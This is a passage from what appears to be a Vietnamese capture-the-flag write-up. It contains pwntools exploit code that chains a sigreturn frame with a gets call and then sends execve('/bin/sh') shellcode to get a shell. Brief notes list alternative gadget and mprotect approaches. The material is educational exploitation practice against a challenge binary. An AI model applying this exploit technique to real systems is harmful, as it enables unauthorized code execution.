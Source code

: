 ```python
payload3 += p64(0xf)
payload3 += p64(syscall_ret)

frame = SigreturnFrame(arch="amd64",kernel="amd64")
frame.rdi = 0x200000
frame.rip = gets
frame.rsp = 0x4049a8
payload3 += bytes(frame)
payload3 += p64(call_rax)



p.sendline(payload3)
shellcode = asm('''
                xor rax,rax
                xor rdi,rdi
                xor rsi,rsi
                xor rdx,rdx
                movabs rdi,29400045130965551
                push rdi
                mov rdi,rsp
                mov al,0x3b
                syscall
                ''')
input()
p.sendline(shellcode)





p.interactive()
```

- chú ý rằng các địa chỉ được setup ở frame.rsp là do debug mà mình có được 

![shell](/assets/images/shellhehe.png)

- 1 cách khác nữa là sử dụng gadget này : ```0x000000000040213a: mov dword ptr [rdi], eax; or eax, 0xffffffff; ret;``` , mình lười quá nên để ở đây , ta cần setup **rax** sẽ là chuỗi flag và rdi là nơi ta muốn đặt nó vào , chú ý ở đây chỉ được đặt 4 bytes nên nếu path dài thì phải đặt nhiều lần
- 1 cách khác nữa là dùng ```mprotect``` như **mmap** ta có thể leak **libc_stack_end** để lấy địa chỉ stack và read shellcode vào stack , nói chung vẫn là dùng shellcode để lấy shell 